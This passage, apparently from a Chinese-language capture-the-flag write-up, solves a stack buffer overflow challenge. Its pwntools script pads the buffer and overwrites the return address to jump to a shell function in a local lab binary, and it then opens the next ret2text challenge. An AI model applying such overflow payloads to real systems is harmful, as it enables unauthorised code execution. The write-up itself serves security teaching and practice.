 ![image.png](img/8464a8afea896fa0e56459952742f7ce.png)

构造payload如下：

```
from pwn import *
payload = b'A' * (0xf + 8) + p64(0x40118a)

p = process('./rip')
p.sendline(payload)
p.interactive() 
```

输入我们的`payload`，直接getshell，得到flag

![image.png](img/80f8a8a2e876c842b171fe554c1015dd.png)

# 0x003.warmup_csaw_2016 - ret2text

惯例`checksec`，保护全关，可以为所欲为

![image.png](img/ad56fb09e1d3a99203ac00b9f99baabf.png)
